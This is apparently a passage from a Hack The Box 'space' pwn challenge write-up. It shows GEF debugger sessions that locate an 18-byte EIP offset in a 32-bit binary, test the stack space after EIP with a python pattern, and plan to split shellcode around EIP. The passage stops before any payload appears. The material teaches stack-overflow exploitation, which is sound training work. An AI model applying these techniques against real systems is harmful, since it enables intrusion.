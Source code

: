 ```shell
0xffffd044│+0x0014: 0x61616261
0xffffd048│+0x0018: 0x61616361
0xffffd04c│+0x001c: 0x61616461
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x61666161
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "space", stopped 0x61666161 in ?? (), reason: SIGSEGV
```

```shell
gef➤  pattern search aafa
[+] Searching 'aafa'
[+] Found at offset 19 (little-endian search) likely
[+] Found at offset 18 (big-endian search) 
gef➤
```
we found the offset of 18 will require to reach the eip.
that's a quite little space.

lets create a simple pattern to test the space available after eip.

```shell
┌─[✗]─[oxy@oxy]─[~/Practice/hackthebox/challenge/pwn/space]
└──╼ $python3 -c 'print("A"*18+"B"*8+"C"*18)'
AAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCCCCCCCCCCCC
┌─[oxy@oxy]─[~/Practice/hackthebox/challenge/pwn/space]
└──╼ $
```


```shell
gef➤  run
Starting program: /home/oxy/Practice/hackthebox/challenge/pwn/space/space 
> AAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCCCCCCCCCCCC

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()


gef➤  x/30x $esp
0xffffd030:	0x42424242	0x43434343	0xffd08043	0x080400ff
0xffffd040:	0x414141fc	0x41414141	0x41414141	0x41414141
0xffffd050:	0x42414141	0x42424242	0x43424242	0x43434343
0xffffd060:	0xffffd080	0x00000000	0x00000000	0xf7de1df6
0xffffd070:	0xf7fa8000	0xf7fa8000	0x00000000	0xf7de1df6
0xffffd080:	0x00000001	0xffffd124	0xffffd12c	0xffffd0b4
0xffffd090:	0xffffd0c4	0xf7ffdb40	0xf7fcb410	0xf7fa8000
0xffffd0a0:	0x00000001	0x00000000
gef➤ 
```
we don't have enough space after eip too to put our shellcode.
so we have to divide our shellcode in `two halves` and  put one larger half before eip and other smaller half after eip and control the return function to navigate betwwen shellcode.
